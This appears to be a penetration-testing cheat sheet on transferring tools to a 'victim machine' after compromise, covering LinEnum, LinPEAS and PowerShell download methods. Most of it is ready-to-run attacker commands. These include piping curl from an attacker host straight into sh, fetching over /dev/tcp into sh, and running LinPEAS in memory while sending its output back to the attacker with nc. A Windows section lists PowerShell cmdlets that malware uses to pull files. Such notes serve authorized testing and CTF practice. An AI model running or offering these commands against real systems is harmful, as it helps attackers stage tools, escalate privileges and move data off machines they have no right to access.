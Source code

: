 # Download tools

Resources to get what you need once in the victim machine



## Paste bins
- <https://snips.sh/>




- <https://github.com/andrew-d/static-binaries>



## Linux

### LinEnum

- <https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>

```



LinEnum.sh -s -k keyword -r report -e /tmp/ -t



```














### LINPeas
```
# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"


# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64

# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors






# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim




```






## Windows

Valid PowerShell cmdlets/methods that can be used by malware to download additional files:
- Invoke-WebRequest
- Start-BitsTransfer
- system.Net.WebClient
- Invoke-RestMethod



### Invoke-WebRequest (In Powershell `curl` is an alias for this command)

```

# get a website content, save it as xx.html (iwr is alias of Invoke-WebRequest)
iwr "google.com" -outfile xx.html


$url = "http://192.168.1.10/example.txt"
$destination = "C:\Downloads\example.txt"
Invoke-WebRequest -Uri $url -OutFile $destination


# Download using PowerShell’s WebClient object
(new-object System.Net.WebClient).DownloadFile('http://[IP]/file.txt','dest/path/file.txt')

```





